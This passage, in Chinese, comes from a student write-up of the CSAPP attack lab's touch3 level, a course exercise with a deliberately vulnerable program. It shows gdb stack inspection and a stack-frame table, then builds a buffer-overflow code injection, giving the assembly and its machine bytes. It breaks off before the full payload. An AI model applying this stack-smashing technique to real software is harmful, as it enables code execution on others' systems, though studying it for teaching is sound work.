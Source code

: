 再向下运行两步，得出`getbuf`的`rsp`的返回地址

```assembly
(gdb) p $rsp
$3 = (void *) 0x5561dc78
```

可以看出未分配之前的`test`的`rsp =0x5561dca0`里面的内容即是 `*rsp =0x401976`对应于`getbuf`的返回地址。

放一张`test`调用函数`getbuf`时候，栈帧的示意图

![](E:\Codefield\Code_C\CSAPP\Linux命令手册\Graph\03_02stack.png)



| 地址                                             | 内容                    |
| ------------------------------------------------ | ----------------------- |
| 0x5561dca8                                       |                         |
| 0x5561dca0  （getbuf的返回地址）以上是test的栈帧 | 00 00 00 00 00 40 19 76 |
| rsp+20 （以下分别对应 getbuf的缓冲区）           | 00 00 00 00 00 00 00 00 |
| rsp+18                                           | 00 00 00 00 00 00 00 00 |
| rsp+10                                           | 00 00 00 00 00 00 00 00 |
| rsp+08                                           | 00 00 00 00 00 00 00 00 |
| rsp                                              | 00 00 00 00 00 00 00 00 |



**关键分析**

**我们调用`touch3`的时候需要传递给它一个 `*sval`一个字符串数组的起始地址，为防止在`getbuf`的缓冲区里面被覆盖，将该`cookie =0x59b997fa`的字符串放在`test`的栈帧`0x5561dca8`里面，然后在利用缓冲区溢出将 `getbuf` 的返回地址设置成`rsp`，使用`level2`里面的技巧。**

```assembly
movq $0x5561dca8 %rdi
pushq  $0x4018fa
retq
```

反汇编，取其指令码如下

```assembly
l3.o：     文件格式 elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
   7:	68 fa 18 40 00       	pushq  $0x4018fa
   c:	c3                   	retq 
```

所以构建 注入代码 ，
